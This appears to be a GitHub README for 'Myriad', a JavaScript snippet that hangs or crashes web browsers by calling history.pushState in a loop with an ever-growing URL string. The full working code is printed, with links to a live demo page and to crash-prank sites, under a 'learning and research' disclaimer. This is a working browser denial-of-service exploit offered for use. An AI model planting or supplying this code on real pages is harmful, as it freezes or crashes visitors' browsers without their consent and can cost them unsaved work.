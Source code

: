# Myriad

Simple JS script that overloads the browser with a huge URL (Where it gets its name)

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function, hang, or crash.

```js
var total = "";
for( var i = 0; i < 10000000000000; i++ ) {
total += i.toString();
history.pushState(0,0, total );
}
```

## Need for Myriad

No one is ever gonna need it (To Say Nothing Of The Naughty Ones)

This script is in the mischievous websites like [crashsafari.com](https://crashsafari.com), [crashchrome.com](http://crashchrome.com), etc.

You better don't do so!

Original code taken from [crashsafari.com](http://crashsafari.com)

## Demo

Visit [this](https://fuk.netlify.app) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
